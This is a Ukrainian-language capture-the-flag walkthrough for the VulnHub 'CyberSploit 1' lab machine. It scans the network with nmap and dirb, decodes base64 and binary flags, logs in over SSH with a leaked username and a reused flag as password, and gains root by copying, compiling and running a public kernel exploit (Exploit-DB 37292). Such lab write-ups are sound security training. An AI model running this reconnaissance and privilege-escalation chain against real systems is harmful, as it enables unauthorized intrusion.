В цьому документі наведено розгорнуте пояснення до проходження завдання **Capture the Flag (CTF)**, опубліковане на сайті **VulnHub** автором **"CyberSploit"**.  

Для проходження цього CTF необхідно мати **базові знання команд Linux** та **навички використання інструментів для тестування на проникнення**. Завантажити CTF можна тут [[https://www.vulnhub.com/entry/cybersploit-1,506/]].  


> ⚠️ **Примітка**: Для запуску всіх цих вразливих машин було використано **Qemu / KVM + Virt-Manager**. Для проходження CTF використано **Kali linux 26.2** як атакуючу машину. Використані методики призначені **виключно для освітніх цілей**. <br>
**Відповідальность за їх застосування проти будь-яких інших цілей буде визначатись відповідно чинному законодавству.**  

---

## **Короткий огляд кроків вирішення CTF**
1. Отримати **IP-адресу цільової машини**, та просканувати **відкриті порти** за допомогою **nmap**.  
2. Перевірити **HTTP-сервіс** та знайти **перший флаг**.  
3. Отримати **shell-доступ** та знайти **другий флаг**.  
4. Отримати **root-доступ** і прочитати **третій флаг**.  

---

## **Розбір CTF крок за кроком**

### **Крок 1: Отримати IP-адресу цільової машини та просканувати відкриті порти**
Після завантаження та запуску віртуальної машини у **Qemu / KVM + Virt-Manager** першим кроком є визначення її IP-адреси та
сканування цільової машини на наявність **відкритих портів** та **запущених сервісів**. Для цього використовуємо команду:  

```sh
netdiscover -r 192.168.160.0/24
```


```sh
nmap 192.168.160.0/24  -sV
```


📌 **Результат**:  

- Ми отримали IP-адресу цільової машини — **192.168.160.251**.

- Відкрито порт **22 (SSH)**.  
- Відкрито порт **80 (HTTP)**.  

---

### **Крок 2: Відкриття веб-додатку за 80 портом**
Відкриваємо **IP-адресу** цільової машини у браузері та бачимо **простий веб-сайт**.
- http://192.168.160.251:80



---

### **Крок 3: Дослідження веб-додатку**
Щоб знайти **приховані файли та директорії**, запускаємо **dirb**:  

```sh
dirb http://192.168.160.251
```


```plaintext
---- Scanning URL: http://192.168.160.251/ ----
+ http://192.168.160.251/cgi-bin/ (CODE:403|SIZE:291)                                                                                                      
+ http://192.168.160.251/hacker (CODE:200|SIZE:3757743)                                                                                                    
+ http://192.168.160.251/index (CODE:200|SIZE:2295)                                                                                                        
+ http://192.168.160.251/index.html (CODE:200|SIZE:2295)                                                                                                   
+ http://192.168.160.251/robots (CODE:200|SIZE:93)                                                                                                         
+ http://192.168.160.251/robots.txt (CODE:200|SIZE:93)                                                                                                     
+ http://192.168.160.251/server-status (CODE:403|SIZE:296)
```

```sh
dirb http://192.168.160.251
```
📌 **Результат**: Було знайдено файл **robots.txt**.

Відкриваємо його у браузері та бачимо **закодований рядок**.


```plaintext
TmljZSB0cnksIGJ1dCB5b3UgbmVlZCBtb3JlLgpGbGFnMTogaHR0cHM6Ly90Lm1lL1NvZnRTZXJ2ZUVkdWNhdGlvbg==
```

Спробуємо **декодувати** цей рядок через командний рядок та отримаємо **перший флаг**:

```sh
echo "TmljZSB0cnksIGJ1dCB5b3UgbmVlZCBtb3JlLgpGbGFnMTogaHR0cHM6Ly90Lm1lL1NvZnRTZXJ2ZUVkdWNhdGlvbg==" | base64 --decode
```


```plaintext
Flag1: (https://t.me/SoftServeEducation)
```

---

### **Крок 4: Отримання shell-доступу**
Ми продовжили аналіз **HTML-коду** веб-сторінки та знайшли [[**ім'я користувача**]](./Images/image7.png) у коментарях:  


```plaintext
Username: CSA
```

Оскільки **SSH (порт 22) відкритий** та інших підказок немає, спробуваd використати **перший флаг** як пароль:  

```sh
ssh CSA@192.168.160.251
```
📌 **Результат**: **Успішний вхід через SSH!**  


Після входу у систему ми перевірили **домашню директорію користувача** та знайшли **файл .info**.  
```sh
$ ls -lah
```


Відкриваємо файл командою:  
```sh
cat .info
```


📌 **Результат**: Файл містить **бінарний код**, який потрібно розшифрувати.  
```plaintext
01001000 01100101 01101100 01101100 01101111 00100000 01100001 01100111 01100001 01101001 01101110 00100001 00100000 01000110 01101100 01100001 01100111 00110010 00111010 00100000 01101000 01110100 01110100 01110000 01110011 00111010 00101111 00101111 01100011 01100001 01110010 01100101 01100101 01110010 00101110 01110011 01101111 01100110 01110100 01110011 01100101 01110010 01110110 01100101 01101001 01101110 01100011 00101110 01100011 01101111 01101101 00101111 01110101 01101011 00101101 01110101 01100001 00101111 01101100 01100101 01100001 01110010 01101110 01101001 01101110 01100111 00101101 01100001 01101110 01100100 00101101 01100011 01100101 01110010 01110100 01101001 01100110 01101001 01100011 01100001 01110100 01101001 01101111 01101110
```

За допомогою **binary-to-text декодера** ми отримали **другий флаг**.  
- https://www.rapidtables.com/convert/number/binary-to-ascii.html


📌 **Результат**:
```plaintext
Hello again! Flag2: https://career.softserveinc.com/uk-ua/learning-and-certification
```

---

### **Крок 5: Отримання root-доступу**
Щоб отримати **root-доступ**, ми дослідили систему командою:  

```sh
uname -a
cat /etc/issue
```


📌 **Результат**:  
- Цільова машина працює на **Ubuntu 12.04.5**.  
- Ядро: **Linux 3.13.0**.  

- Далі знаходимо **експлойт для підвищення привілеїв** у базі **Exploit-DB**.  
```plaintext
https://www.exploit-db.com/exploits/37292
```


- Після того завантажуємо експлойт на машину з **Kali linux 26.2** та копіюємо на атаковану машину за допомогою команди **scp**.  
```sh
scp Downloads/37292.c CSA@192.168.160.251:/home/CSA
```


- На атакованій машині компіліруємо та запускаємо його:  
```sh
gcc 37292.c -o exploit
./exploit
```


📌 **Результат**: **Отримано root-доступ!** 🎉  

- Переходимо в директорію **/root/**, відкриваємо **фінальний флаг**:  

```sh
cd /root
ls -lah
cat finalflag.txt
```
```plaintext
flag3: “You take the red pill… and I show you how deep the rabbit hole goes.” 
Final question: This citation is from "TWF0cml4Cg==" movie.
```
```sh
echo "TWF0cml4Cg==" | base64 –decode
```
```plaintext
Matrix
```


✅ **Фінальний флаг отримано! CTF завершено!** 🎯  



---

## **Висновок**
**Що було зроблено?**  
✔️ Визначено IP-адресу цільової машини.  
✔️ Проскановано порти та сервіси.  
✔️ Знайдено перший флаг через **robots.txt**.  
✔️ Отримано **shell-доступ** через SSH.  
✔️ Знайдено другий флаг у файлі **.info**.  
✔️ Використано **експлойт** для отримання **root-доступу**.  
✔️ Отримано **фінальний флаг**.  

🔹 **Цей CTF був прикладом навчального завдання** для відпрацювання навичок **етичного хакінгу** та тестування на проникнення.  
## Модифікований образ
https://drive.google.com/drive/folders/1bxINfhxSll6MKwqg28uDYVZY50YsaTab
"""
